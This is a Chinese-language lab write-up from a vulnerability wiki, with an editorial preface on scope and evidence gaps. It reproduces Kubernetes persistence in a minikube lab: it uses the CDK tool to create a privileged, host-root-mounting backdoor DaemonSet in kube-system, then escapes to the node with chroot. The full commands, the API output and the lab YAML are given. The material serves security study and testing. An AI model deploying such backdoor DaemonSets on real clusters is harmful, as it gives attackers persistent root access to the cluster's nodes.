



# Kubernetes 部署后门 Daemonset

> 版本字段校订（2026-10-04）：Docker 18.09.3 是原文实验运行时版本，不能作为此配置或权限问题的影响范围。`version` 与 `affected_versions` 改为明确待核，旧值保存在 `previous_*`；实验组件清单及全部 YAML、命令与结果原样保留。后文相关元数据误填说明描述校订前状态。

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：目标namespace能创建DaemonSet，准入允许privileged、hostNetwork/hostPID及hostPath根挂载，节点可调度
- 证据范围：响应JSON明确特权与宿主挂载，描述minikube VM边界，非DaemonSet固有漏洞；保留与CronJob不同权限路径

### 本次正文校订

- 修正正文中的 kubs-system → kube-system 转录错误，资源路径保持原样。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 只能创建DaemonSet不保证准入接受这些危险字段，应补Pod Security/策略前提
- 实验version仅Docker号
- kubs-system拼写错误；使用kube-proxy标签可能与既有对象selector混淆
- 节点选择/taint/toleration影响全部节点覆盖

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

DaemonSet 确保全部（或者某些）节点上运行一个 Pod 的副本。 当有节点加入集群时， 也会为他们新增一个 Pod 。 当有节点从集群移除时，这些 Pod 也会被回收。删除 DaemonSet 将会删除它创建的所有 Pod。

在集群内获取到一定的权限，需要对当前的权限进行持久化控制时，可利用 K8s Daemonset 资源的特性，创建一个 kube-system 命名空间下的 Daemonset 资源，进行持久化控制。

参考链接：

- https://kubernetes.io/zh-cn/docs/concepts/workloads/controllers/daemonset/
- https://github.com/cdk-team/CDK/wiki/Exploit:-k8s-backdoor-daemonset
- https://github.com/cdk-team/CDK/blob/main/test/k8s_exploit_util/backdoor_daemonset.yaml
- https://github.com/Metarget/metarget

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f k8s_backdoor_daemonset.yaml
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `k8s-backdoor-daemonset` 的 pod：

```
kubectl get pods -n metarget
-----
NAME                     READY   STATUS    RESTARTS   AGE
k8s-backdoor-daemonset   1/1     Running   0          9m54s
```




## 漏洞复现

下载漏洞利用工具 [CDK](https://github.com/cdk-team/CDK)，将其传入 `k8s-backdoor-daemonset`pod 中：

```
kubectl cp cdk k8s-backdoor-daemonset:/ -n metarget
```

执行以下命令运行工具（该命令会在 `kube-system` 空间下创建一个 daemonset 资源）：

```
kubectl exec -n metarget -it k8s-backdoor-daemonset -- chmod +x /cdk
kubectl exec -n metarget -it k8s-backdoor-daemonset -- /cdk run k8s-backdoor-daemonset default ubuntu "touch /tmp/awesome_poc ; sleep 10000"
-----
2025/04/22 02:11:42 getting K8s api-server API addr.
	Find K8s api-server in ENV: https://10.96.0.1:443
2025/04/22 02:11:42 trying to deploy daemonset with image:ubuntu to k8s-app:kube-proxy
2025/04/22 02:11:42 api-server response:
{"kind":"DaemonSet","apiVersion":"apps/v1","metadata":{"name":"cdk-backdoor-daemonset","namespace":"kube-system","uid":"ffdf2f2e-e4ce-4938-8ed9-ee7b80753381","resourceVersion":"4619","generation":1,"creationTimestamp":"2025-04-22T02:11:42Z","labels":{"k8s-app":"kube-proxy"},"annotations":{"deprecated.daemonset.template.generation":"1"},"managedFields":[{"manager":"Go-http-client","operation":"Update","apiVersion":"apps/v1","time":"2025-04-22T02:11:42Z","fieldsType":"FieldsV1","fieldsV1":{"f:metadata":{"f:annotations":{".":{},"f:deprecated.daemonset.template.generation":{}},"f:labels":{".":{},"f:k8s-app":{}}},"f:spec":{"f:revisionHistoryLimit":{},"f:selector":{},"f:template":{"f:metadata":{"f:labels":{".":{},"f:k8s-app":{}}},"f:spec":{"f:containers":{"k:{\"name\":\"cdk-backdoor-pod\"}":{".":{},"f:args":{},"f:image":{},"f:imagePullPolicy":{},"f:name":{},"f:resources":{},"f:securityContext":{".":{},"f:capabilities":{".":{},"f:add":{}},"f:privileged":{}},"f:terminationMessagePath":{},"f:terminationMessagePolicy":{},"f:volumeMounts":{".":{},"k:{\"mountPath\":\"/host-root\"}":{".":{},"f:mountPath":{},"f:name":{}}}}},"f:dnsPolicy":{},"f:hostNetwork":{},"f:hostPID":{},"f:restartPolicy":{},"f:schedulerName":{},"f:securityContext":{},"f:terminationGracePeriodSeconds":{},"f:volumes":{".":{},"k:{\"name\":\"host-volume\"}":{".":{},"f:hostPath":{".":{},"f:path":{},"f:type":{}},"f:name":{}}}}},"f:updateStrategy":{"f:rollingUpdate":{".":{},"f:maxSurge":{},"f:maxUnavailable":{}},"f:type":{}}}}}]},"spec":{"selector":{"matchLabels":{"k8s-app":"kube-proxy"}},"template":{"metadata":{"creationTimestamp":null,"labels":{"k8s-app":"kube-proxy"}},"spec":{"volumes":[{"name":"host-volume","hostPath":{"path":"/","type":""}}],"containers":[{"name":"cdk-backdoor-pod","image":"ubuntu","args":["/bin/sh","-c","touch /tmp/awesome_poc ; sleep 10000"],"resources":{},"volumeMounts":[{"name":"host-volume","mountPath":"/host-root"}],"terminationMessagePath":"/dev/termination-log","terminationMessagePolicy":"File","imagePullPolicy":"IfNotPresent","securityContext":{"capabilities":{"add":["NET_ADMIN","SYS_ADMIN","SYS_PTRACE","AUDIT_CONTROL","MKNOD","SETFCAP"]},"privileged":true}}],"restartPolicy":"Always","terminationGracePeriodSeconds":30,"dnsPolicy":"ClusterFirst","hostNetwork":true,"hostPID":true,"securityContext":{},"schedulerName":"default-scheduler"}},"updateStrategy":{"type":"RollingUpdate","rollingUpdate":{"maxUnavailable":1,"maxSurge":0}},"revisionHistoryLimit":10},"status":{"currentNumberScheduled":0,"numberMisscheduled":0,"desiredNumberScheduled":0,"numberReady":0}}
```




验证部署结果：

```
kubectl get ds -n kube-system | grep cdk
-----
cdk-backdoor-daemonset   1         1         1       1            1           <none>                   74s
```




CDK 将宿主机根目录挂载到了 [/host-root](https://github.com/cdk-team/CDK/blob/main/test/k8s_exploit_util/backdoor_daemonset.yaml)，此时我们已经获取了宿主机权限：

```
kubectl get pods -n kube-system | grep cdk
-----
cdk-backdoor-daemonset-rvmp9       1/1     Running   0             7m12s
```


```
kubectl exec -n kube-system -it cdk-backdoor-daemonset-rvmp9 -- /bin/bash
root@minikube:/# ls -al /tmp
total 8
drwxrwxrwt 1 root root 4096 May 19 09:49 .
drwxr-xr-x 1 root root 4096 May 19 09:49 ..
-rw-r--r-- 1 root root    0 May 19 09:49 awesome_poc
root@minikube:/# chroot /host-root
# cat /etc/hostname
minikube
```


> 由于我们是在 minikube 上运行 kubernetes，这里逃逸到的是 minikube 虚拟机。

## 环境复原

```
kubectl delete daemonset cdk-backdoor-daemonset -n kube-system
kubectl delete -f k8s_backdoor_daemonset.yaml
kubectl delete -f k8s_metarget_namespace.yaml
```

## YAML

[k8s_metarget_namespace.yaml](https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml)

```
apiVersion: v1
kind: Namespace
metadata:
  name: metarget
```

[k8s_backdoor_daemonset.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/k8s_backdoor_daemonset.yaml)

```
apiVersion: v1
kind: ServiceAccount
metadata:
  name: k8s-backdoor-daemonset
  namespace: metarget
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: k8s-backdoor-daemonset
rules:
- apiGroups:
  - apps
  resources:
  - daemonsets
  verbs:
  - create
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: k8s-backdoor-daemonset
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: k8s-backdoor-daemonset
subjects:
- kind: ServiceAccount
  name: k8s-backdoor-daemonset
  namespace: metarget
---
apiVersion: v1
kind: Pod
metadata:
  name: k8s-backdoor-daemonset
  namespace: metarget
spec:
  serviceAccountName: k8s-backdoor-daemonset
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
